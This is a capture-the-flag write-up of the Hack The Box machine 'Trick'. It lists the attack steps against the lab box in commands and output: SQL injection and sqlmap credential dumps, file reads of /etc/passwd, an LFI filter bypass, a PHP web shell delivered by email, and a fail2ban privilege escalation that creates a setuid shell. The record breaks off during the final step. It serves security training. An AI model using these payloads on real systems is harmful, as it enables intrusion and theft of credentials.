








# Trick
## Enumeration
- `nmap`
```
└─$ nmap -Pn  -p- 10.10.11.166 -T4                                                                                 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-29 10:59 BST
Stats: 0:13:46 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 91.73% done; ETC: 11:14 (0:01:14 remaining)
Nmap scan report for 10.10.11.166 (10.10.11.166)
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 906.34 seconds
```
```
└─$ nmap -Pn  -p22,25,53,80 -sC -sV 10.10.11.166 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-29 11:17 BST
Nmap scan report for 10.10.11.166 (10.10.11.166)
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.25 seconds

```
- Web Server


- `dns` zone transfer
  - Guessing `trick.htb` worked
```
└─$ dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 224 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
;; WHEN: Tue Aug 29 16:07:42 BST 2023
;; XFR size: 6 records (messages 1, bytes 231)

```
- `vhosts`
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://trick.htb/' -H 'Host: FUZZ.trick.htb'  -fs 5480

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://trick.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.trick.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 5480
________________________________________________
```
- `gobuster`
```
└─$ gobuster dir -u http://trick.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt --no-error   
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://trick.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/08/29 16:11:30 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 185] [--> http://trick.htb/assets/]
/css                  (Status: 301) [Size: 185] [--> http://trick.htb/css/]
/js                   (Status: 301) [Size: 185] [--> http://trick.htb/js/]
```
- Nothing on `smtp`
```
└─$ nmap -p 25 --script=smtp-enum-users 10.10.11.166
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-29 16:16 BST
Nmap scan report for trick.htb (10.10.11.166)
Host is up (0.19s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users: 
|_  Method RCPT returned a unhandled status code.

Nmap done: 1 IP address (1 host up) scanned in 12.67 seconds
```
```
```
## Foothold/User
- `payroll.trick.htb`
```
└─$ gobuster dir -u http://preprod-payroll.trick.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://preprod-payroll.trick.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/29 16:14:49 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 9546] [--> login.php]
/home.php             (Status: 200) [Size: 486]
/login.php            (Status: 200) [Size: 5571]
/header.php           (Status: 200) [Size: 2548]
/users.php            (Status: 200) [Size: 2197]
/assets               (Status: 301) [Size: 185] [--> http://preprod-payroll.trick.htb/assets/]
/ajax.php             (Status: 200) [Size: 0]
/database             (Status: 301) [Size: 185] [--> http://preprod-payroll.trick.htb/database/]
/readme.txt           (Status: 200) [Size: 149]
/navbar.php           (Status: 200) [Size: 1382]
/department.php       (Status: 200) [Size: 4844]
/topbar.php           (Status: 200) [Size: 585]
/position.php         (Status: 200) [Size: 5549]
/employee.php         (Status: 200) [Size: 2717]
```
- Web page


- Looks like some login page
  - Let's try default `SQLi` payload  
  - `' or 1=1-- -` works
  - We're in



- By the way, I later found out that it is a actual software
  - https://www.sourcecodester.com/php/14475/payroll-management-system-using-phpmysql-source-code.html
  - Googling for `Recruitment Management System Payroll Management System php` should be enough


- If we inspect `users` page and edit `administrator`, we can see hidden password in sources
  - `SuperGucciRainbowCake`
  - But the creds didn't work anywhere


- So since we have `sqli`, let's try `sqlmap`
```
└─$ sqlmap -r login.req --batch --level 5 --risk 3          
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[(]_____ ___ ___  {1.7.8#stable}                                                                                                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                   
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:56:44 /2023-08-29/

[16:56:44] [INFO] parsing HTTP request from 'login.req'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[16:56:44] [INFO] testing connection to the target URL
[16:56:45] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:56:45] [INFO] testing if the target URL content is stable
[16:56:45] [INFO] target URL content is stable
[16:56:45] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[16:56:46] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
[16:56:46] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable
[16:56:46] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
[16:56:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:57:11] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[16:57:32] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[16:57:34] [INFO] (custom) POST parameter '#1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT)' injectable 
[16:57:38] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
...
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 604 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=' OR NOT 8378=8378-- xHqp&password=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=' OR (SELECT 6966 FROM(SELECT COUNT(*),CONCAT(0x71766b6a71,(SELECT (ELT(6966=6966,1))),0x7170706271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- duBl&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 3579 FROM (SELECT(SLEEP(5)))wnFL)-- IoKl&password=
---
[16:59:24] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0 (MariaDB fork)

```

- Let's dump `dbs`
```
└─$ sqlmap -r login.req --dump --dbs              
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[(]_____ ___ ___  {1.7.8#stable}                                                                                                                                                                                                    
|_ -| . [']     | .'| . |                                                                                                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:00:04 /2023-08-29/

[17:00:04] [INFO] parsing HTTP request from 'login.req'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
[17:00:08] [INFO] resuming back-end DBMS 'mysql' 
[17:00:08] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...
[17:01:20] [INFO] retrieved: ''
[17:01:20] [INFO] retrieved: '0'
[17:01:20] [INFO] retrieved: '1'
[17:01:21] [INFO] retrieved: 'SuperGucciRainbowCake'
[17:01:21] [INFO] retrieved: 'Enemigosss'
Database: payroll_db
Table: users
[1 entry]
+----+-----------+---------------+--------+---------+---------+-----------------------+------------+
| id | doctor_id | name          | type   | address | contact | password              | username   |
+----+-----------+---------------+--------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrator | 1      | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+---------------+--------+---------+---------+-----------------------+------------+

[17:01:21] [INFO] table 'payroll_db.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb/dump/payroll_db/users.csv'
[17:01:21] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb'
```
- Nothing interesting
  - We can try checking privileges

```
└─$ sqlmap -r login.req --privilege 
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[.]_____ ___ ___  {1.7.8#stable}                                                                                                                                                                                                    
|_ -| . ["]     | .'| . |                                                                                                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:09:00 /2023-08-29/

[17:09:00] [INFO] parsing HTTP request from 'login.req'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
[17:09:01] [INFO] resuming back-end DBMS 'mysql' 
[17:09:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...
[17:09:02] [INFO] retrieved: ''remo'@'localhost''
[17:09:03] [INFO] retrieved: 'FILE'
database management system users privileges:
[*] 'remo'@'localhost' [1]:
    privilege: FILE
```

- We have `FILE` privileges, so we can read files
  - Test on `/etc/passwd` and it works
```
└─$ sqlmap -r login.req --batch --file-read=/etc/passwd
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.7.8#stable}                                                                                                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                   
|___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:17:04 /2023-08-29/

[17:17:04] [INFO] parsing HTTP request from 'login.req'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[17:17:04] [INFO] resuming back-end DBMS 'mysql' 
[17:17:04] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...
2F7362696E2F6E6F6C6F67696E0A68706C69703A783A3131353A373A48504C49502073797374656D20757365722C2C2C3A2F7661722F72756E2F68706C69703A2F62696E2F66616C73650A44656269616E2D67646D3A783A3131363A3132343A476E6F6D6520446973706C6179204D616E616765723A2F7661722F6C69622F67646D333A2F62696E2F66616C73650A73797374656D642D636F726564756D703A783A3939393A3939393A73797374656D6420436F72652044756D7065723A2F3A2F7573722F7362696E2F6E6F6C6F67696E0A6D7973716C3A783A3131373A3132353A4D7953514C205365727665722C2C2C3A2F6E6F6E6578697374656E743A2F62696E2F66616C73650A737368643A783A3131383A36353533343A3A2F72756E2F737368643A2F7573722F7362696E2F6E6F6C6F67696E0A706F73746669783A783A3131393A3132363A3A2F7661722F73706F6F6C2F706F73746669783A2F7573722F7362696E2F6E6F6C6F67696E0A62696E643A783A3132303A3132383A3A2F7661722F63616368652F62696E643A2F7573722F7362696E2F6E6F6C6F67696E0A6D69636861656C3A783A313030313A313030313A3A2F686F6D652F6D69636861656C3A2F62696E2F
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[17:17:28] [INFO] retrieved: '2351'
[17:17:28] [INFO] the local file '/home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (2351 B)
```


- We can check other possible `vhosts`
  - `sqlmap -r login.req --batch --file-read=/etc/nginx/sites-enabled/default` 
  - We have another one `preprod-marketing.trick.htb`
```
└─$ cat /home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default
server {
        listen 80 default_server;
        listen [::]:80 default_server;
        server_name trick.htb;
        root /var/www/html;

        index index.html index.htm index.nginx-debian.html;

        server_name _;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}


server {
        listen 80;
        listen [::]:80;

        server_name preprod-marketing.trick.htb;

        root /var/www/market;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
        }
}

server {
        listen 80;
        listen [::]:80;

        server_name preprod-payroll.trick.htb;

        root /var/www/payroll;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}

```
- `http://preprod-marketing.trick.htb/`


- We have `http://preprod-marketing.trick.htb/index.php?page=`
  - We can try basic `lfi` payload to see if it works
  - But both absolute and relative path payloads doesn't seem to work
  - Trying `http://preprod-marketing.trick.htb/index.php?page=php://filter/convert.base64-encode/resource=index.php` doesn't work either
  - So let's check `index.php` via `sqlmap`
```
└─$ cat /home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_var_www_market_index.php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>         
```
- Okay, we can bypass it via `....//`, since it will replace the `../` which will leave `../`



- The web server is ran by `michael`



- We can check if `michael` has `ssh` key and he has


### Poison log path
- We can also nginx logs
  - So we can try `log poisoning`



- Have to be careful, if we make mistake we won't be able to exploit it this way
  - Which is what I did




- Now we have web shell and can get reverse shell
### SMTP path
- We can send email to `michael` via `swaks` and access it via `lfi`
  - We know `michael`'s box should be located in `/var/mail/michael`
    - Send mail: `swaks --to michael --from pentest --header "Subject: Pentest" --body '<?php system($_REQUEST["cmd"]); ?>' --server 10.10.11.166`
    - And check `http://preprod-marketing.trick.htb/index.php?page=....//....//....//var/mail/michael&cmd=id`






## Root
- We have `sudo` rights

```
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
- groups
  - Non-standard `security` group 
```
michael@trick:~$ id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
```

- We have full control over `/etc/fail2ban/action.d`
```
michael@trick:~$ find / -group security -ls 2>/dev/null
   269281      4 drwxrwx---   2 root     security     4096 Aug 29 19:54 /etc/fail2ban/action.d
```

- Let's understand `fail2ban`
  - `The purpose of Fail2ban is to monitor the logs of common services to spot patterns in authentication failures`
  - `When fail2ban is configured to monitor the logs of a service, it looks at a filter that has been configured specific to that service. The filter is designed to identify authentication failures for that specific service through the use of complex regular expressions.`
  - `When a log from any service, like a web server, matches the failregex in its filter, a predefined action is executed for that service.`
    - https://www.digitalocean.com/community/tutorials/how-fail2ban-works-to-protect-services-on-a-linux-server
- Now we can check the configs and try abusing it
  - We have `jail` for `sshd` and `iptables-multiport` config for actions
  - 
```
...
[DEFAULT]
...
# Default banning action (e.g. iptables, iptables-new,
# iptables-multiport, shorewall, etc) It is used to define
# action_* variables. Can be overridden globally or per
# section within jail.local file
banaction = iptables-multiport
banaction_allports = iptables-allports
...
[sshd]

# To use more aggressive sshd modes set filter parameter "mode" in jail.local:
# normal (default), ddos, extra or aggressive (combines all).
# See "tests/files/logs/sshd" or "filter.d/sshd.conf" for usage example and details.
#mode   = normal
port    = ssh
logpath = %(sshd_log)s
backend = %(sshd_backend)s
bantime = 10s
...
```

- Since we can write to `iptables-multiport.conf`
  - To be specific change `actionban` parameter, so that it executes command when banning specific `ip`
  - We don't have write permissions, but we can `mv` it and then copy it (since we have ownership of the folder), so that we become an owner of that file
    - Command: `cp /bin/bash /tmp/rooted; chmod 4777 /tmp/rooted`
  - https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/

```
michael@trick:/etc/fail2ban/action.d$ mv iptables-multiport.conf iptables-multiport.conf.bak
michael@trick:/etc/fail2ban/action.d$ ls -lha iptables*
-rw-r--r-- 1 root root 1.4K Aug 29 20:18 iptables-allports.conf
-rw-r--r-- 1 root root 2.7K Aug 29 20:18 iptables-common.conf
-rw-r--r-- 1 root root 1.4K Aug 29 20:18 iptables.conf
-rw-r--r-- 1 root root 2.0K Aug 29 20:18 iptables-ipset-proto4.conf
-rw-r--r-- 1 root root 2.2K Aug 29 20:18 iptables-ipset-proto6-allports.conf
-rw-r--r-- 1 root root 2.2K Aug 29 20:18 iptables-ipset-proto6.conf
-rw-r--r-- 1 root root 1.4K Aug 29 20:18 iptables-multiport.conf.bak
-rw-r--r-- 1 root root 2.1K Aug 29 20:18 iptables-multiport-log.conf
-rw-r--r-- 1 root root 1.5K Aug 29 20:18 iptables-new.conf
-rw-r--r-- 1 root root 2.6K Aug 29 20:18 iptables-xt_recent-echo.conf
michael@trick:/etc/fail2ban/action.d$ cp iptables-multiport.conf.bak iptables-multiport.conf
michael@trick:/etc/fail2ban/action.d$ ls -lha iptables*
-rw-r--r-- 1 root    root    1.4K Aug 29 20:18 iptables-allports.conf
-rw-r--r-- 1 root    root    2.7K Aug 29 20:18 iptables-common.conf
-rw-r--r-- 1 root    root    1.4K Aug 29 20:18 iptables.conf
-rw-r--r-- 1 root    root    2.0K Aug 29 20:18 iptables-ipset-proto4.conf
-rw-r--r-- 1 root    root    2.2K Aug 29 20:18 iptables-ipset-proto6-allports.conf
-rw-r--r-- 1 root    root    2.2K Aug 29 20:18 iptables-ipset-proto6.conf
-rw-r--r-- 1 michael michael 1.4K Aug 29 20:19 iptables-multiport.conf
-rw-r--r-- 1 root    root    1.4K Aug 29 20:18 iptables-multiport.conf.bak
